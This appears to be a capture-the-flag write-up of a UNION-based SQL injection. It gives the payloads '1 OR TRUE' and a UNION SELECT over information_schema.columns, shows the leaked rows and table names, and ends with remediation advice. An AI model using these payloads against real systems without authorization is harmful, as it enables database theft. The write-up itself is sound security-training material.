

# SQL Injection – UNION-Based Data Extraction (Users Table)

## Description

The application does not properly filter user input before including it in SQL queries, resulting in a **UNION-based SQL Injection** vulnerability.


## Exploitation

A simple payload such as:

```sql id="d4x7pa"
1 OR TRUE
```
revealed multiple user records and confirmed that the `id` parameter is vulnerable:
```text
...
First name: three  
Surname: me  
First name: Flag  
Surname: GetThe
```
A UNION-based payload was then used to enumerate the database structure:
```SQL
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

This allowed identification of available tables and columns, including `Commentaire` and `countersign`, which contained sensitive information used to retrieve the flag.

## Impact
- Full database enumeration
- Data extraction without authentication
- Exposure of sensitive information, including instructions and hashed credentials

## Remediation
- Use prepared statements for all database queries
- Validate and sanitize all user inputs
- Avoid displaying database errors to users
- Apply least privilege to database accounts

## Conclusion
This vulnerability shows that unsanitized user input in SQL queries can allow attackers to retrieve sensitive information and compromise the database.


